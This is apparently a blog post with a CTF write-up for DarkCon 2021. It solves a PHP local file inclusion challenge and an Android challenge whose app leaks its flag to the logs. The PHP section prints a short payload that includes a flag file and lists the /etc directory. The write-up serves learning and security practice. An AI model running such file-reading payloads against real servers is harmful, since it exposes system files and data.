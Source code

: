 ```yaml
---
layout: post
title:  "DarkCon CTF writeup (2021)"
date:   2021-02-21 15:11:51 +0530
categories: CTF web
---
```

<style type="text/css">
  img {
    padding: 5px;
    display: block;
  }
</style>
This post has writeup for two challenges: `WTF PHP (Web)` and `ezpz (Android app reversing)` 

`1. WTF php`    
This challenge has the local file inclusion (LFI) vulnerability. The solution is as follows:
1. Use opendir() and readdir() to list the contents of /etc directory.
2. Get the name of the txt file containing the flag (f1@g.txt).
3. Use the include directive to read the file. The code is as follows

{% highlight ruby %}
<?php
	include '/etc/f1@g.txt';	
	$filelist = array();
	if ($handle = opendir("/etc")) {
    	while ($entry = readdir($handle)) {
          	$filelist[] = $entry;
    	}
	print_r($filelist);
    closedir($handle);
	}
	 
?>
{% endhighlight %}


`2. ezpz`   
In this challenge, the app exposes the flag, i.e, sensitive information in the logs. Here's how I got the flag:
1. I used jadx-gui to read the source code of the ezpz.apk file.
2. In the source code of main activity, you can see that the method isThisWhatUWant() is called (line 33).
	<img src="{{ site.baseurl }}/assets/images/2_1_ezpz.png" alt="remix_ss">
3. Now when you go to the code of this function, it takes a snapshot of a firebase collection and prints the flag in the logs of the app.
4. So to get the flag, all you have to do is setup an emulator (like Genymotion), install the app on the emulator, run it and get the logs using the command 'adb logcat'.
